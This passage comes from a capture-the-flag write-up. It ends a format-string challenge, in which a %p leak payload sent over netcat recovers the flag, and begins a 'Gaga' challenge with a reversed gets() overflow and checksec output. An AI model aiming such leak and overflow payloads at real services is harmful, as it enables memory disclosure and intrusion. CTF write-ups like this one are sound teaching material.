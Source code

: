 ```bash
$ python3 exploit.py
actf{st4ck_it_queue_it_a619ad974c864b22}
```
{: .nolineno }

For manual exploitation we can send the following
```bash
$ nc challs.actf.co 31322
What did you learn in class today? %14$p %15$p %16$p %17$p %18$p
Oh nice, (nil) 0x3474737b66746361 0x75715f74695f6b63 0x615f74695f657565 0x3437396461393136 0x7d32326234363863
sounds pretty cool!
```
{: .nolineno }

and give to cyberchef to get the flag in ascii format
![Flag](queue_flag.png)

## Gaga
```
Multipart challenge!

Note all use essentially the same Dockerfile. The flags are split among all three challenges. If you are already a pwn expert, the last challenge has the entire flag.

nc challs.actf.co 31300 gaga0

nc challs.actf.co 31301 gaga1

nc challs.actf.co 31302 gaga2 Dockerfile

Author: JoshDaBosh
```
I will start off by solving the `gaga2` challenge since that is the one giving the whole flag, and after that I will go through `gaga0` and `gaga1`.

I use the `pwntools template` for the exploit-scripts, but as there is like 50 lines of template code to start the challenge I will only provide the actual exploit part of the code (template can be generated with `pwn template --host <ip> --port <port> ./<binary>`).

Each of the challenges will have an analysis section where the binaries are reversed and the exploit-plan is assembled.

### Gaga2 - Analysis
Reversing the binary we find have main function
```c
void main(){
    char input[60];
    puts("Awesome! Now there\'s no system(), so what will you do?!");
    printf("Your input: ");
    gets(input);
    return;
}
```
Calling `gets` is dangerous due to it continuously reading bytes, even after the buffer is full. This causes a buffer overflow attack, and with limited protections on the binary it is pretty straightforward to exploit this
```bash
$ checksec gaga2
[*] '~/angstrom/pwn/gaga/2/gaga2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```